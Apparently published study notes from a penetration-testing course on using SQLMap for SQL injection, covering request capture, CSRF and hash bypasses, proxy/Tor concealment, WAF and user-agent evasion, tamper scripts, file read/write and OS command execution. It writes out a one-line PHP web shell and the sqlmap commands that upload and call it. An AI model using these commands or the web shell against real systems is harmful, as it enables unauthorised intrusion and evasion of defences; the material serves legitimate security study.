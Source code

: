 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/bug-bounties/sql-injection/sql-map/","tags":["SQLi","SQLInjection","SQL"]}
---
```



[SQLMap](https://github.com/sqlmapproject/sqlmap) is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws. SQLMap has been continuously developed since 2006 and is still maintained today.

The technique characters `BEUSTQ` refers to the following:

-   `B`: Boolean-based blind
-   `E`: Error-based
-   `U`: Union query-based
-   `S`: Stacked queries
-   `T`: Time-based blind
-   `Q`: Inline queries

## cURL

One good way to use SQLMAP is to "Copy as cURL" from the Network Monitor panel inside the browser, paste the curl command into thet terminal and change "curl" to "sqlmap".

## GET/POST R;equests

**GET** parameters are provided using the -u/--url flags.  For POST requests, use the ```
--data flag.

## Full HTTP Requests

For complex requests use the -r flag with a request captured from Burpsuite or otherwise.  Then run:
	```
```Shell
user@comp$ sqlmap -r req.txt
```

## Custom SQLMap requests

There are numerous switches to learn:

* --cookie
* -H/--header
* etc.
* --random-agent: can be important because it picks identifies as a random agent rather than SQLMap
* --mobile: will make SQLMap identify as a mobile smartphone.

It is possible to test headers for SQLi vulnerabiltiy by using the * marker.  For example: --cookie="id=1*"

## Handling SQLMap Errors

--parse-errors to parse and display DBMS errors.
-t /tmp/traffic.txt to store traffic to an output file.
-v (1-6) to set verbosity level
--proxy to send it through a proxy like burp.

## Fine tuning attacks.

--prefix and --suffix can be used to fine tune attacks.

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```
--level (1-5, default 1) extends the amount of vectors and boundaries used.
--risk (1-3, default 1) extends the vector set based on the risk of denial of service.

Various switches will also allow the fine tuning of SQLMap.


Note: The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.

## Bypassing web Application Protections

### Anti-[[Cybersecurity/Bug Bounties/CSRF\|CSRF]] Token Bypass

SQLMap has option:
```bash
--csrf-token
```

If you specify the token parameter (usually found in the request) then SQLMap will try to automatically attempt to parse the responses it gets for new tokens.

```bash
user@box$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

You use the --csrf-token switch to tell SQLMap that the token exists in the data field.  In addition, SQLMap will recognize common token specifiers like: [[Cybersecurity/Bug Bounties/CSRF\|CSRF]], xsrf, and token.

### Unique Value Bypass

Sometimes the website will have a predefined parameter that must be unique. This can be overcome using the option:
```bash
---randomize
```

### Calculated Parameter Bypass

Where a web application expects a proper parameter value be cacluated based on some other parameter values.  Often, one paramaer has to contain the message digest (e.g., **h=MD%(id)**) of another one.
```bash
---eval
```
can be used to bypass this.  Example:
```bash
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5
```

An in-depth write up of the --eval switch is [here](https://infosecwriteups.com/the-mystery-of-sqlmaps-eval-f6c7bf43e1f).

### IP Address Concealing

Can be done via proxy or tor.
```bash
--proxy="socks4://177.38.187.70:33283"
--proxy-file

--tor
--check-tor
```

--tor switch needs [[Cybersecurity/Bug Bounties/TOR\|TOR]] installed properly on the machine.

### [[Cybersecurity/Bug Bounties/Web Application Firewall (WAF)\|Web Application Firewall (WAF)]] bypass

SQLMap will automatically inject a suspicious payload as part of its initial tests to test for the existence of a WAF.  We can skip this test to make the test less noisy by using:
```bash
--skip-waf
```

### User-agent Blacklisting Bypass

One of the firt things to think about when there is a problem.  SQLMap identifies itself as SQLMap (e.g., **User-agent: sqlmap/1.4.9 (http://sqlmap.org)**) so we should consider using the switch **--random-agent** which will change the default user-agent to a randomly chosen pool of values used by browsers.

### Tamper Scripts

Tamper scripts are Python scripts written for modifying requests before thy are sent to a target to make them less detectable (i.e., to bypass protection.)

The list of tampers can be found with the switch:
```bash
--list-tampers
```

tampers are used with the tamper switch:
```bash
--tamper="between"
```


## OS Exploitation

### File Read/Write

Generally, the DB user must have the privilege to **LOAD** **DATA** and **INSERT** to be ablte to load the content of a file to a table and then read the table.

In modern databases it is a common requirement that the user have database administrator (DBA) privileges to do this.

We can check if the user has DBA privileges with the **--is-dba** switch.

### Reading Local Files
We can read files using **--file-read**

### Wrting Local Files

Generally reuires that the --secure-file-priv configuration is disabled to allow writing data into local files using the **INTO OUTFILE** SQL query.  With SQLMap we can try and use the options:
```bash
--file-write
--file-dest
```

Say we have tihs shell as "shell.php":
```php
<?php system($_GET["cmd"]); ?>
```

We could try:
```bash
sqlmap -u "http://www.target.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
Confirm the upload by doing:
```bash
user@comp$ sqlmap -u "http://www.target.com/shell.php?cmd=ls+-la"
```
(We should get the directory contents.)

### OS Command Execution

We use the option:
```bash
--os-shell
```

One of the important lessons of this module was to use dev tools and burpsuite to locate potential injectable pages.go